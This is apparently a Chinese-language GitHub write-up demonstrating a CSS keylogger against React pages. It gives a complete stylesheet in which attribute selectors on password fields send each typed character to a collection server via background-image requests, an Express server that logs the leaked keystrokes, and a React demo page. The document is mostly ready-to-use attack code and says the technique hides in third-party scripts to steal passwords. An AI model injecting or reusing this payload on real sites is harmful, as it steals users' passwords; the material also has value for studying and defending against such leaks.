

# CSS 键盘记录器-React

这种行为只存在于使用  React /  类 React  框架的页面中
场景一般隐匿于第三方脚本当中从而窃取你的密码
攻击手段利用 CSS 属性选择器，可以在加载 background-image

例如，以下 css 将选择 atype 等于 password 和 value 以 结尾的所有输入 a。然后它将尝试从 `http://localhost:3000/a`

使用一个简单的脚本可以创建一个 css 文件，该文件将为每个 ASCII 字符发送一个自定义请求。

应为 react 会设置 value 的值


css 列表

```css
input[type="password"][value$=" "] { background-image: url("http://localhost:3000/+"); }
input[type="password"][value$="!"] { background-image: url("http://localhost:3000/%21"); }
input[type="password"][value$="\""] { background-image: url("http://localhost:3000/%22"); }
input[type="password"][value$="#"] { background-image: url("http://localhost:3000/%23"); }
input[type="password"][value$="$"] { background-image: url("http://localhost:3000/%24"); }
input[type="password"][value$="%"] { background-image: url("http://localhost:3000/%25"); }
input[type="password"][value$="&"] { background-image: url("http://localhost:3000/%26"); }
input[type="password"][value$="'"] { background-image: url("http://localhost:3000/%27"); }
input[type="password"][value$="("] { background-image: url("http://localhost:3000/%28"); }
input[type="password"][value$=")"] { background-image: url("http://localhost:3000/%29"); }
input[type="password"][value$="*"] { background-image: url("http://localhost:3000/%2A"); }
input[type="password"][value$="+"] { background-image: url("http://localhost:3000/%2B"); }
input[type="password"][value$=","] { background-image: url("http://localhost:3000/%2C"); }
input[type="password"][value$="-"] { background-image: url("http://localhost:3000/-"); }
input[type="password"][value$="."] { background-image: url("http://localhost:3000/."); }
input[type="password"][value$="/"] { background-image: url("http://localhost:3000/%2F"); }
input[type="password"][value$="0"] { background-image: url("http://localhost:3000/0"); }
input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }
input[type="password"][value$="2"] { background-image: url("http://localhost:3000/2"); }
input[type="password"][value$="3"] { background-image: url("http://localhost:3000/3"); }
input[type="password"][value$="4"] { background-image: url("http://localhost:3000/4"); }
input[type="password"][value$="5"] { background-image: url("http://localhost:3000/5"); }
input[type="password"][value$="6"] { background-image: url("http://localhost:3000/6"); }
input[type="password"][value$="7"] { background-image: url("http://localhost:3000/7"); }
input[type="password"][value$="8"] { background-image: url("http://localhost:3000/8"); }
input[type="password"][value$="9"] { background-image: url("http://localhost:3000/9"); }
input[type="password"][value$=":"] { background-image: url("http://localhost:3000/%3A"); }
input[type="password"][value$=";"] { background-image: url("http://localhost:3000/%3B"); }
input[type="password"][value$="<"] { background-image: url("http://localhost:3000/%3C"); }
input[type="password"][value$="="] { background-image: url("http://localhost:3000/%3D"); }
input[type="password"][value$=">"] { background-image: url("http://localhost:3000/%3E"); }
input[type="password"][value$="?"] { background-image: url("http://localhost:3000/%3F"); }
input[type="password"][value$="@"] { background-image: url("http://localhost:3000/%40"); }
input[type="password"][value$="A"] { background-image: url("http://localhost:3000/A"); }
input[type="password"][value$="B"] { background-image: url("http://localhost:3000/B"); }
input[type="password"][value$="C"] { background-image: url("http://localhost:3000/C"); }
input[type="password"][value$="D"] { background-image: url("http://localhost:3000/D"); }
input[type="password"][value$="E"] { background-image: url("http://localhost:3000/E"); }
input[type="password"][value$="F"] { background-image: url("http://localhost:3000/F"); }
input[type="password"][value$="G"] { background-image: url("http://localhost:3000/G"); }
input[type="password"][value$="H"] { background-image: url("http://localhost:3000/H"); }
input[type="password"][value$="I"] { background-image: url("http://localhost:3000/I"); }
input[type="password"][value$="J"] { background-image: url("http://localhost:3000/J"); }
input[type="password"][value$="K"] { background-image: url("http://localhost:3000/K"); }
input[type="password"][value$="L"] { background-image: url("http://localhost:3000/L"); }
input[type="password"][value$="M"] { background-image: url("http://localhost:3000/M"); }
input[type="password"][value$="N"] { background-image: url("http://localhost:3000/N"); }
input[type="password"][value$="O"] { background-image: url("http://localhost:3000/O"); }
input[type="password"][value$="P"] { background-image: url("http://localhost:3000/P"); }
input[type="password"][value$="Q"] { background-image: url("http://localhost:3000/Q"); }
input[type="password"][value$="R"] { background-image: url("http://localhost:3000/R"); }
input[type="password"][value$="S"] { background-image: url("http://localhost:3000/S"); }
input[type="password"][value$="T"] { background-image: url("http://localhost:3000/T"); }
input[type="password"][value$="U"] { background-image: url("http://localhost:3000/U"); }
input[type="password"][value$="V"] { background-image: url("http://localhost:3000/V"); }
input[type="password"][value$="W"] { background-image: url("http://localhost:3000/W"); }
input[type="password"][value$="X"] { background-image: url("http://localhost:3000/X"); }
input[type="password"][value$="Y"] { background-image: url("http://localhost:3000/Y"); }
input[type="password"][value$="Z"] { background-image: url("http://localhost:3000/Z"); }
input[type="password"][value$="["] { background-image: url("http://localhost:3000/%5B"); }
input[type="password"][value$="\\"] { background-image: url("http://localhost:3000/%5C"); }
input[type="password"][value$="]"] { background-image: url("http://localhost:3000/%5D"); }
input[type="password"][value$="^"] { background-image: url("http://localhost:3000/%5E"); }
input[type="password"][value$="_"] { background-image: url("http://localhost:3000/_"); }
input[type="password"][value$="`"] { background-image: url("http://localhost:3000/%60"); }
input[type="password"][value$="a"] { background-image: url("http://localhost:3000/a"); }
input[type="password"][value$="b"] { background-image: url("http://localhost:3000/b"); }
input[type="password"][value$="c"] { background-image: url("http://localhost:3000/c"); }
input[type="password"][value$="d"] { background-image: url("http://localhost:3000/d"); }
input[type="password"][value$="e"] { background-image: url("http://localhost:3000/e"); }
input[type="password"][value$="f"] { background-image: url("http://localhost:3000/f"); }
input[type="password"][value$="g"] { background-image: url("http://localhost:3000/g"); }
input[type="password"][value$="h"] { background-image: url("http://localhost:3000/h"); }
input[type="password"][value$="i"] { background-image: url("http://localhost:3000/i"); }
input[type="password"][value$="j"] { background-image: url("http://localhost:3000/j"); }
input[type="password"][value$="k"] { background-image: url("http://localhost:3000/k"); }
input[type="password"][value$="l"] { background-image: url("http://localhost:3000/l"); }
input[type="password"][value$="m"] { background-image: url("http://localhost:3000/m"); }
input[type="password"][value$="n"] { background-image: url("http://localhost:3000/n"); }
input[type="password"][value$="o"] { background-image: url("http://localhost:3000/o"); }
input[type="password"][value$="p"] { background-image: url("http://localhost:3000/p"); }
input[type="password"][value$="q"] { background-image: url("http://localhost:3000/q"); }
input[type="password"][value$="r"] { background-image: url("http://localhost:3000/r"); }
input[type="password"][value$="s"] { background-image: url("http://localhost:3000/s"); }
input[type="password"][value$="t"] { background-image: url("http://localhost:3000/t"); }
input[type="password"][value$="u"] { background-image: url("http://localhost:3000/u"); }
input[type="password"][value$="v"] { background-image: url("http://localhost:3000/v"); }
input[type="password"][value$="w"] { background-image: url("http://localhost:3000/w"); }
input[type="password"][value$="x"] { background-image: url("http://localhost:3000/x"); }
input[type="password"][value$="y"] { background-image: url("http://localhost:3000/y"); }
input[type="password"][value$="z"] { background-image: url("http://localhost:3000/z"); }
input[type="password"][value$="{"] { background-image: url("http://localhost:3000/%7B"); }
input[type="password"][value$="|"] { background-image: url("http://localhost:3000/%7C"); }
input[type="password"][value$="\\}"] { background-image: url("http://localhost:3000/%7D"); }
input[type="password"][value$="~"] { background-image: url("http://localhost:3000/~"); }
input[type="password"][value$=""] { background-image: url("http://localhost:3000/%7F"); }
```

服务器端express 便可以取截取到你传输的数据

```js
const express = require("express");
const app = express();

app.get("/:key", (req, res) => {
  process.stdout.write(req.params.key);
  return res.sendStatus(400);
});

app.listen(3000, () => console.log("> Ready to keylog at localhost:3000"));
```
react代码

```vue
<script src="https://cdn.bootcdn.net/ajax/libs/react/16.13.1/umd/react.production.min.js"></script>
    <script src="https://cdn.bootcdn.net/ajax/libs/react-dom/16.13.1/umd/react-dom.production.min.js"></script>
    <script src="https://cdn.bootcdn.net/ajax/libs/babel-standalone/7.0.0-beta.3/babel.min.js"></script>
    <script type="text/babel">
       const Ipt =  React.createElement(()=>{
        const {  useState } = window.React;
            const [state,setState] = useState({val:"123"})
            const setInput = (e) => {
                setState({
                    val:e.target.value
                })
            }
            return <input type="password" onChange={setInput} value={state.val}></input>
        })
        ReactDOM.render(Ipt,document.getElementById('app'))
    </script>
```
